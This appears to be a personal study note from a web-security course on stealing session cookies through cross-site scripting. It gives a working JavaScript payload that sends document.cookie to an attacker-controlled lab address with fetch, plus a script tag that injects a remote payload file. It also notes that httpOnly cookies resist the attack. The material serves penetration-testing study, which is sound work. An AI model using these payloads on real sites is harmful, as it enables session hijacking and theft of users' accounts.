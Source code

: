 ```yaml
---
tags:
  - xss
---
```

# Stealing cookie XSS

How use external payload see here: [[2023042721181010 XSS external JS payload]]

! We can''t steal cookie with httpOnly
## Payload js script: 
```js
fetch("http://192.168.49.62/cookie?data=" + encodeURIComponent(document.cookie));
```

## Inject payload 
```html
<script src='http://192.168.49.55/xss.js'></script>
```

## References
1. web200.Cross-Site Scripting Exploitation and Case Study.Stealing Session Cookies
